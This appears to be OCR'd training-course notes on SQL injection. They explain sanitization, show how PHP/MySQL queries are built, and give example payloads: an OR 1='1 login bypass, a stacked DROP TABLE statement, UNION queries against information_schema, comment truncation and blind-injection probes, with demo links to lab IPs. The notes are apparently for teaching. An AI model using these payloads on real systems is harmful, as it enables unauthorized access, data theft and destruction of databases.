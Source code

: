 ```
- Sanitized: input fields are checked for items that might harm the database (Items are removed, escaped, or turned into a single string)
- Validation: checks inputs to ensure it meets a criteria (String doesn’t contain ')


## Server-Side Query Processing
- User enters JohnDoe243 in the name form field and pass1234 in the pass form field.
- The Server-Side Query that would be passed to MySQL from PHP would be:
- BEFORE INPUT:
  - SELECT id FROM users WHERE name=‘$name’ AND pass=‘$pass’;
- AFTER INPUT:
  - SELECT id FROM users WHERE name=‘JohnDoe243’ AND pass=‘pass1234’;


## Example - Injecting Your Statement
- User enters tom' OR 1='1 in the name and pass fields.
- Truth Statement: tom ' OR 1='1
- Server-Side query executed would appear like this:
- SELECT id FROM users WHERE name=‘tom' OR 1='1’ AND pass=‘tom' OR 1='1’

## SQL Injection Validation
- DEMO: SQL Injection
- http://10.50.XX.XX


## Stacking Statements
- Chaining multiple statements together using a semi-colon ;
- SELECT * FROM user WHERE id=‘Johnny'; DROP TABLE Customers; --’


## Nesting statements
- Some Web Application + SQL Database combinations do not allow stacking, such as PHP and MySQL.
- Though they may allow for nesting a statement within an existing one:
- php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'


## Ignore the rest
- Using # or -- tells the Database to ignore everything after
- Server-Side Query:
- SELECT product FROM item WHERE id = $select limit 1;
- Input to Inject:
- 1 or 1=1; #
- Server-Side Query becomes:
- SELECT product FROM item WHERE id = 1 or 1=1; # limit 1;



## SQL Injection (Nesting)
- DEMO: SQL Injection (Nesting Statements)
- http://10.50.XX.XX/Union.html


## Blind Injection
- Inlcudes Statements to determine how DB is configured
  - Columns in Output
  - Can we return errors
  - Can we return expected Output
- Used when unsanitized fields give generic error or no messages
- Normal Query to pull expected output:
- php?item=4
- Blind injection for validation:
- php?item=4 OR 1=1
```